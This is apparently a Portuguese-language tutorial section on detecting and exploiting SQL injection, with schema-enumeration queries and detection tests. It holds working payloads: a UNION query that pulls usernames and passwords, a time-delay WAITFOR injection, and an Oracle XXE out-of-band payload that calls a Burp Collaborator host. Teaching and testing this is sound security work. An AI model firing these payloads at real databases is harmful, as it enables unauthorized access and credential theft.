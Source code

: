 ## Extra

* Para exibir a lista de tabelas do DB \(exceto DBs da Oracle\): 

  ```sql
  SELECT * FROM information_schema.tables
  ```

-Para exibir lista de colunas de uma tabela:

```sql
SELECT * FROM information_schema.columns WHERE table_name = 'Users'
```

* Em DBs da Oracle, usa-se:

  ```sql
  SELECT * FROM all_tables -- listar tabelas
  SELECT * FROM all_tab_columns WHERE table_name = 'nome_da_tabela' -- listar colunas
  ```

* Em DBs da Oracle, um `SELECT` sempre deve conter um `FROM <nome_da_tabela>`. Para isso, uma tabela "padrão" para se usar é `DUAL`
* Para concatenar resultados \(colunas diferentes\) em uma coluna, pode-se usar o `||`: `' UNION SELECT username || '~' || password FROM users -- -` \(ORACLE e POSTGRE\) ou `'foo'+'bar'` \(MICROSOFT\) ou `'foo' 'bar'` e `CONCAT('foo','bar')` \(MYSQL\)

_Para ver mais, procure por "SQL Injection Cheat Sheets" como_ [_essa_](https://portswigger.net/web-security/sql-injection/cheat-sheet) _ou_ [_essa_](https://www.netsparker.com/blog/web-security/sql-injection-cheat-sheet/)_._

## Como detectar uma SQL Injection?

Ferramentas como Burpsuite ou Sqlmap são capazes de detectar diversas vulnerabilidades relacionadas à SQL Injection de forma automática, mas também podemos realizar alguns testes simples para verificar se há falhas no sistema responsável pela comunicação com o banco de dados. Alguns desses testes são:

* Enviar aspas simples \(`'`\);
* Enviar condicionais como `OR 1=1` e `OR 1=2`;
* Enviar _payloads_ com _triggers_ de tempo \(_delay_\) como `'; IF (1=2) WAITFOR DELAY '0:0:10'--` e analisar o tempo de resposta;
* Enviar _payloads_ de OAST \([Out-of-band Application Security Testing](https://portswigger.net/blog/oast-out-of-band-application-security-testing)\) que causam certos _triggers_ e monitorar interações com sistemas externos.
  * Já que não explicamos sobre isso, segue um exemplo:

    ```sql
      '||(select extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?> <!DOCTYPE root [ <!ENTITY % ekiom SYSTEM "http://pibw1f1nhjh3vpkgtx6mtfnt8kea2eq8dy1n.burpcollab'||'orator.net/"> %ekiom;]>'),'/l') from dual)||' 
      -- conecta com um servidor de colaborador do Burp (faz uso de XML/DTD)
    ```

## Links externos

* [Portswigger](https://portswigger.net/web-security/sql-injection)
* [OWASP](https://owasp.org/www-community/attacks/SQL_Injection)
* [Acunetix](https://www.acunetix.com/websitesecurity/sql-injection/)


